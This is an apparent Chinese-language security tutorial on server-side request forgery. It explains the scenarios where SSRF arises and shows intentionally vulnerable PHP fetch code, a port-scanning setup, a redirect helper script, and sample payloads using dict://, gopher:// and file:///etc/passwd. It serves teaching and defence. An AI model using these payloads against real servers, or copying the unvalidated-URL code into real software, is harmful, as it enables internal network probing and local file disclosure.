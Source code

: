 ## SSRF 简介

SSRF，Server-Side Request Forgery，服务端请求伪造，是一种由攻击者构造形成由服务器端发起请求的一个漏洞。一般情况下，SSRF 攻击的目标是从外网无法访问的内部系统。

漏洞形成的原因大多是因为服务端提供了从其他服务器应用获取数据的功能且没有对目标地址作过滤和限制。

攻击者可以利用 SSRF 实现的攻击主要有 5 种：

1.  可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的 banner 信息
2.  攻击运行在内网或本地的应用程序（比如溢出）
3.  对内网 WEB 应用进行指纹识别，通过访问默认文件实现
4.  攻击内外网的 web 应用，主要是使用 GET 参数就可以实现的攻击（比如 Struts2，sqli 等）
5.  利用 `file` 协议读取本地文件等

## SSRF 漏洞出现的场景

-   能够对外发起网络请求的地方，就可能存在 SSRF 漏洞
-   从远程服务器请求资源（Upload from URL，Import & Export RSS Feed）
-   数据库内置功能（Oracle、MongoDB、MSSQL、Postgres、CouchDB）
-   Webmail 收取其他邮箱邮件（POP3、IMAP、SMTP）
-   文件处理、编码处理、属性信息处理（ffmpeg、ImageMagic、DOCX、PDF、XML）

## 常用的后端实现

1.  `file_get_contents`

    ```php
    <?php
    if (isset($_POST['url'])) { 
        $content = file_get_contents($_POST['url']); 
        $filename ='./images/'.rand().';img1.jpg'; 
        file_put_contents($filename, $content); 
        echo $_POST['url']; 
        $img = "<img src=\"".$filename."\"/>"; 
    }
    echo $img;
    ?>
    ```

    这段代码使用 `file_get_contents` 函数从用户指定的 URL 获取图片。然后把它用一个随即文件名保存在硬盘上，并展示给用户。

2.  `fsockopen()`

    ```php
    <?php 
    function GetFile($host,$port,$link) { 
        $fp = fsockopen($host, intval($port), $errno, $errstr, 30); 
        if (!$fp) { 
            echo "$errstr (error number $errno) \n"; 
        } else { 
            $out = "GET $link HTTP/1.1\r\n"; 
            $out .= "Host: $host\r\n"; 
            $out .= "Connection: Close\r\n\r\n"; 
            $out .= "\r\n"; 
            fwrite($fp, $out); 
            $contents=''; 
            while (!feof($fp)) { 
                $contents.= fgets($fp, 1024); 
            } 
            fclose($fp); 
            return $contents; 
        } 
    }
    ?>
    ```

    这段代码使用 `fsockopen` 函数实现获取用户制定 URL 的数据（文件或者 HTML）。这个函数会使用 socket 跟服务器建立 TCP 连接，传输原始数据。

3.  `curl_exec()`

    ```php
    <?php 
    if (isset($_POST['url'])) {
        $link = $_POST['url'];
        $curlobj = curl_init();
        curl_setopt($curlobj, CURLOPT_POST, 0);
        curl_setopt($curlobj,CURLOPT_URL,$link);
        curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1);
        $result=curl_exec($curlobj);
        curl_close($curlobj);

        $filename = './curled/'.rand().'.txt';
        file_put_contents($filename, $result); 
        echo $result;
    }
    ?>
    ```

    使用 `curl` 获取数据。

## 阻碍 SSRF 漏洞利用的场景

-   服务器开启 OpenSSL 无法进行交互利用
-   服务端需要鉴权（Cookies & User：Pass）不能完美利用

## 利用 SSRF 进行端口扫描

根据服务器的返回信息进行判断，大部分应用不会判别端口，可通过返回的 banner 信息判断端口状态。

后端实现

```php
<?php 
if (isset($_POST['url'])) {
    $link = $_POST['url'];
    $filename = './curled/'.rand().'txt';
    $curlobj = curl_init($link);
    $fp = fopen($filename,"w");
    curl_setopt($curlobj, CURLOPT_FILE, $fp);
    curl_setopt($curlobj, CURLOPT_HEADER, 0);
    curl_exec($curlobj);
    curl_close($curlobj);
    fclose($fp);
    $fp = fopen($filename,"r");
    $result = fread($fp, filesize($filename)); 
    fclose($fp);
    echo $result;
}
?>
```

构造一个前端页面

```html
<html>
<body>
  <form name="px" method="post" action="http://127.0.0.1/ss.php">
    <input type="text" name="url" value="">
    <input type="submit" name="commit" value="submit">
  </form>
  <script></script>
</body>
</html>
```

请求非 HTTP 的端口可以返回 banner 信息。

或可利用 302 跳转绕过 HTTP 协议的限制。

辅助脚本

```php
<?php
$ip = $_GET['ip'];
$port = $_GET['port'];
$scheme = $_GET['s'];
$data = $_GET['data'];
header("Location: $scheme://$ip:$port/$data");
?>
```

[腾讯某处 SSRF 漏洞（非常好的利用点）附利用脚本](https://_thorns.gitbooks.io/sec/content/teng_xun_mou_chu_ssrf_lou_6d1e28_fei_chang_hao_de_.html)

## 协议利用

-   Dict 协议

    ```
    dict://fuzz.wuyun.org:8080/helo:dict
    ```

-   Gopher 协议

    ```
    gopher://fuzz.wuyun.org:8080/gopher
    ```

-   File 协议

    ```
    file:///etc/passwd
    ```

## 参考资料

-   [《Build Your SSRF EXP Autowork》猪猪侠](http://tools.40huo.cn/#!papers.md)
-   [腾讯某处 SSRF 漏洞（非常好的利用点）附利用脚本](https://_thorns.gitbooks.io/sec/content/teng_xun_mou_chu_ssrf_lou_6d1e28_fei_chang_hao_de_.html)
-   [bilibili 某分站从信息泄露到 ssrf 再到命令执行](https://_thorns.gitbooks.io/sec/content/bilibilimou_fen_zhan_cong_xin_xi_xie_lu_dao_ssrf_z.html)
